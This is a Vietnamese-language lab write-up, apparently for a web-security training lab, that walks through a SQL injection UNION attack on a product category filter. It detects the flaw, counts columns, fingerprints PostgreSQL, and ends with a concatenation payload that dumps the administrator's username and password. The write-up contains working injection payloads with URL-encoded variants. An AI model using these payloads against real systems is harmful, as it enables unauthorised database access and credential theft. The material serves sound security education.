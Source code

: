 [lab10.md](https://github.com/user-attachments/files/23074731/lab10.md)
Câu 10 SQL injection UNION attack, retrieving multiple values in a
single column

Mô tả bài lab: khai thác lỗ hổng SQL injection ở bộ lọc category để truy
vấn và hiển thị username và password của administrator từ một bảng biết
tên là users và cột username, password. Đăng nhập bằng tài khoảng
administrator là hoàn thành bài lab

Bước 1: Xác định web có lỗ hỏng SQL injection hay không  
Chọn category bất kỳ và thêm ký tự \' vào cuối URL, nếu như có thông báo
lỗi internal server error thì có tồn tại lỗ hỏng SQL injection

![A screenshot of a computer AI-generated content may be
incorrect.](image/image1.png){width="6.260416666666667in"
height="1.625in"}

Bước 2: Xác định có thể khai thác web bằng SQL injection UNION được
không

Nếu như ta chỉnh sửa URL sao cho category=any_string , nếu nhập URL đã
chỉnh sửa mà trang web hiển thị any_string thì ta xác định có thể khai
thác bằng SQL injection UNION

![A screen shot of a computer AI-generated content may be
incorrect.](image/image2.png){width="6.260416666666667in"
height="2.53125in"}

Bước 3: Xác định payload SQL injection UNION

Để có thể xác định được payload tấn công, ta cần xác định số cột của
bảng category và xác định kiểu dữ liệu của các cột tương ứng để khai
thác dữ liệu có lợi cho bên tấn công, kiểu dữ liệu mà ta quan tâm thường
là dạng chuỗi

Để có thể xác định sỗ lượng cột của bảng category ta sử dụng payload như
sau: \' order by n\-- (tăng dần n cho đến khi có thông báo lỗi internal
server error, khi có lỗi xảy ra thì số lượng cột của bảng là n-1)

Với chuỗi injection là \' order by 3-- thì xuất hiện lỗi, như vậy bảng
có 2 cột

![A screenshot of a computer AI-generated content may be
incorrect.](image/image3.png){width="6.260416666666667in"
height="1.6145833333333333in"}

Bây giờ ta đi tìm trong hai cột của bảng category xem có cột nào kiểu
string không, thực ra thì ta nhìn vào tên sản phẩm và mô tả cũng đủ biết
đó là string, nhưng mà cứ viết payload dò đi cho chắc ăn

\' union select \'a\',NULLl\-- encode \'+union+select+\'a\',NULL\--

Dùng lệnh này gặp lỗi thì cột 1 không phải là string

![A screenshot of a computer AI-generated content may be
incorrect.](image/image4.png){width="6.260416666666667in"
height="1.4166666666666667in"}

\' union select NULL,\'a\'\-- encode \'+union+select+NULL,\'a\'\--

Dòng a dưới cùng cho thấy cột 2 có kiểu string

![A screenshot of a computer AI-generated content may be
incorrect.](image/image5.png){width="6.260416666666667in"
height="3.03125in"}

Đến đây ta đã có đủ dữ kiện để tạo union payload, ta có thể lấy từng cột
một như sau

\' union select NULL,username from users 

encode 

\'+union+select+NULL,username+from+users

\' union select NULL,password from user

encode

\'+union+select+NULL,password+from+user

Hoặc ta có thể truy vấn cùng lúc cả hai cột username và password bằng
cách bằng string concatenation

Nhưng ta vẫn chưa biết đây là cơ sở dữ liệu gì để lựa chọn cú pháp, ta
có thể xác định hệ quản trị cơ sở dữ liệu mà web dùng bằng các truy vấn
sau

Oracle SELECT banner FROM v\$version

SELECT version FROM v\$instance

Microsoft SELECT @@version

PostgreSQL SELECT version()

MySQL SELECT @@version

Thử kiểm tra xem có phải là Microsoft không

\' union select NULL, @@version\-- encode
\'+union+select+NULL,@@version\--

Ta nhận được internal server error tức là đã sai cú pháp. Đây không phải
là DBMS Microsoft

![A screenshot of a computer AI-generated content may be
incorrect.](image/image6.png){width="6.270833333333333in"
height="1.34375in"}

Thử cho PostgreSQL

\' union select NULL, version()\-- encode
\'+union+select+NULL,version()\--

Dựa vào kết quả ta xác nhận web dùng PostgreSQL

![A screenshot of a computer AI-generated content may be
incorrect.](image/image7.png){width="6.270833333333333in"
height="3.1666666666666665in"}

Giờ ta đã biết cú pháp để thực hiện string concatenation

\' union select NULL,username \|\|+\'\*\'+\|\| password from users\--

encode 

\'+union+select+NULL,username+\|\|+\'\*\'+\|\|+password+from+users\--

Như vậy ta đã lấy được tên tài khoảng và mật khẩu của administrator
administratorqgbspqzgtlejfm5dnasm

Tên tài khoảng: **administrator**

Mật khẩu: **qgbspqzgtlejfm5dnasm**

![A screenshot of a computer AI-generated content may be
incorrect.](image/image8.png){width="6.260416666666667in"
height="3.1770833333333335in"}

Tiến hành đăng nhập

![A screenshot of a computer AI-generated content may be
incorrect.](image/image9.png){width="6.260416666666667in"
height="2.5520833333333335in"}
